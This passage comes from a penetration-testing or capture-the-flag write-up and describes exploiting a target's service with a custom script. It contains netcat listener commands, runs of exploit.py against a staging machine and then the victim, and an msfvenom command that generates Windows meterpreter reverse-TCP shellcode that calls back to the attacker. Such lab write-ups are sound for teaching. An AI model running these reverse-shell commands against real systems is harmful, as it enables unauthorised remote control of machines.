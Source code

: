 ```
    sys.exit()
```

**Kali #1**

```
nc -lvnp 4444
```

**Kali #2**

```
python exploit.py $TESTMACHINE 31337
```

<figure><img src="../../.gitbook/assets/image (74) (1).png" alt=""><figcaption></figcaption></figure>

### Exploit - Production

The program worked against our staging environment so it should work against the actual box we're trying to exploit. It ends up working with exploit.py.

**Kali #1**

```
rlwrap nc -lvnp 4444
```

**Kali #2**

```
python exploit.py $VICTIM 31337
```

<figure><img src="../../.gitbook/assets/image (66) (1).png" alt=""><figcaption></figcaption></figure>

I saw that the Victims OS is x64 and I wasn't able to run exes or powershell so I changed the payload. I first tried x64 payload but it wasn't working because it was to big so I switched to a meterpreter payload to avoid issues running commands.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```
